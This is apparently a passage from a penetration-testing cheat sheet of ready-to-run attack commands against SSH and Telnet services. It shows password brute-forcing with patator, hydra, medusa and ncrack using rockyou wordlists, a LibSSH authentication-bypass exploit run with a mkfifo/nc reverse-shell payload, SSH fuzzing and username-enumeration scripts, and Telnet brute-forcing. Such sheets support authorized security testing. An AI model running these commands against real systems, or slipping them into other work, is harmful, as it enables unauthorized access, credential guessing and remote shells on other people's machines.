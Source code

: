 ```
# Force Auth Method:
$ ssh -v 10.10.1.111 -o PreferredAuthentications=password
...
debug1: Next authentication method: password

# BruteForce:
patator ssh_login host=10.11.1.111 port=22 user=root 0=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt password=FILE0 -x ignore:mesg='Authentication failed.'
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111
medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111

# LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access
# Id
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id
# Reverse
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"

# SSH FUZZ
# <https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt>

# cpan Net::SSH2
./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p user

use auxiliary/fuzzers/ssh/ssh_version_2

# SSH-AUDIT
# <https://github.com/arthepsy/ssh-audit>

# Enum users < 7.7:
# <https://www.exploit-db.com/exploits/45233>
<https://github.com/CaioCGH/EP4-redes/blob/master/attacker/sshUsernameEnumExploit.py>
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null | grep "is a"

# SSH Leaks:
<https://shhgit.darkport.co.uk/>

# SSH bruteforce
# <https://github.com/kitabisa/ssb>

```

### Port 23 - Telnet

```
# Get banner
telnet 10.11.1.110
# Bruteforce password
patator telnet_login host=10.11.1.110 inputs='FILE0\\\\nFILE1' 0=/root/Desktop/user.txt 1=/root/Desktop/pass.txt  persistent=0 prompt_re='Username: | Password:'

```
